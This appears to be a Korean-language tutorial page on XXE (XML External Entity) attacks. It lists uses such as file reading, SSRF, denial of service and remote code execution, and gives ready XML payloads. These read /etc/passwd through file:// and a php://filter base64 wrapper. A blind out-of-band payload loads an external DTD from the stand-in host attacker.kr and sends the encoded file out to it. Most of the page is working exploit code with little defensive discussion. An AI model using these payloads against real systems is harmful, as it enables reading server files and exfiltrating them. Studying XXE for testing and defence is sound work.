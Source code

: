 ### 그렇다면 XXE를 활용하여 무엇을 할 수 있까요?

- 파일 읽기 (file://, php://)
- SSRF (Port Scan, HTTP GET 접속,...)
- DOS (메모리 고갈 ⇒ &xee, &xee, &xee, &xee, &xee, &xee, &xee, &xee, &xee, &xee, &xee, ...)
- Remote Code Execution (jar:// , XXE+SSRF(gopher://))
- ...

### XXE 파일 읽기

- file:// 프로토콜을 활용하여 서버내 파일을 읽어올 수 있습니다.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file://etc/passwd">]>
<userInfo>
	<email>kevin@nasa.gov</email>
	<firstName>Kevin</firstName>
	<lastName>&xxe;</lastName>
</userInfo>
```

- 다음과 같이 서버에서 직접 접근해서 파일을 읽어오는 과정에서 인코딩 중 `<, >` 문자가 포함되어 있는 경우 인코딩 에러가 발생할 수 있기 때문에 `base64` 인코딩을 과정을 거치는 과정을 수행합니다.
- php:// php wrapper 를 활용하여 base64로 응답 데이터를 인코딩을 합니다.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">]>
<userInfo>
	<email>kevin@nasa.gov</email>
	<firstName>Kevin</firstName>
	<lastName>&xxe;</lastName>
</userInfo>
```

### Bind XXE Attack

- XXE 공격이 가능한 벡터가 존재하지만 서버에서 응답을 받을 수 없는 경우 활용 방안 입니다.
- 다음은 외부 서버에 페이로드를 구성합니다.

```xml
payload.xml

<!ENTITY % eval "<!ENTITY exfil SYSTEM 'http://attacker.kr/data?=%data;'>"> %eval;
```

- 다음은 대상 애플리케이션 에 공격할 페이로드 입니다.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob SYSTEM "http://attacker.kr/payload.xml"> % oob;]>
<userInfo>
	<email>kevin@nasa.gov</email>
	<firstName>Kevin</firstName>
	<lastName>&exfil;</lastName>
</userInfo>
```
